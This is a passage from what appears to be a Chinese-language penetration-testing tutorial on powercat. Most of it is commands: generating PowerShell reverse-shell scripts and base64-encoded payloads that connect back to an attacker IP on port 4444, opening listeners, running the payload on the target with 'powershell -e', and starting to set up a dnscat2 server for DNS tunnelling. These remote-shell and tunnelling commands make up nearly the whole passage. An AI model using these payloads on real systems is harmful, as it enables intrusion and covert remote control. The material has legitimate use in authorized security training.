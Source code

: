 ```
powercat -c rhost -p rport -v
```

```
powercat -c 172.16.214.21 -p 4444 -v 
```

反向连接也可以

在攻击机上生成 ps1 文件，并开启监听

```
powercat -c rhost -p rport -ep -g > shell.ps1
```

```
powercat -c 172.16.214.2 -p 4444 -ep -g > shell.ps1
```

```
powercat -l -p 4444 -v
```

之后在靶机上，运行 ps1 文件就会上线了，如果不想生成文件，也可以使用 -ge 生成经过编码的 payload

在攻击机上生成 payload，并开启监听

```
powercat -c 172.16.214.2 -p 4444 -ep -ge
```

```
powercat -l -p 4444 -v
```

在靶机上执行刚生成的 payload

```
powershell -e payload
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_15-35-24.png)

### 建立 dns 隧道连接

powercat 的 dns 隧道是基于 dnscat 设计的，因此在服务端需要使用 dnscat 连接。

在服务端上安装 dnscat ，以 kali 为例

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

命令运行完之后，执行以下命令开启服务端

```
ruby dnscat2.rb powercat -e open --no-cache
```
